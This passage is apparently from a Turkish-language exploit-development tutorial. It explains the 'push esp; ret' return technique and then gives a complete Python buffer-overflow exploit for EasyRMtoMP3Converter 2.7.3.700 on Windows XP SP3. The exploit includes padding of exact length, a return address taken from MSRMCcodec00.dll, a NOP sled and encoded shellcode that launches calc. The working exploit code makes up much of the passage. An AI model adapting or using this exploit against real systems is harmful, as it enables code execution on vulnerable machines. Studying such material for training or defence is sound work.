 ## `push ret`

Bu kısımda aslında `pop ret` tekniğine çok benzer. Sadece stackden bir değer çıkarmak yerine stack içerisine bir değer eklememiz gerekiyor. Bu eklediğimiz değerde ret komutu ile çalışmış olacak. Yani stack içerisine shellcode'umuzu gösteren birşeyler pushlamamız gerekecek. Bunun içinde biçilmiş kaftan olan `push esp, ret` komutunu arayacağız :D

`MSRMCcodec00.dll` içerisinde bir tane buldum.

![push esp](img/0x02/6.png)

Evet lafı çokda uzatmaya gerek yok hemen exploitimizi hazırlayalım.

POP komutları olmadığı için onları atlatmak için kullandığımız 8 byte'lık NOP karakterlerine ihtiyacımız yok. Ayrıca ESP adresini tek komutta return edeceğimiz için jmp esp komutunada ihtiyacımız olmayacak.

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*26109
push_ret = b"\xF6\x57\xB8\x01" # push esp  retn - MSRMCcodec00.dll
nop = b"\x90"*25
pre_esp = b"JUNK"


exploit = padding + push_ret + pre_esp + nop + calc + nop
```
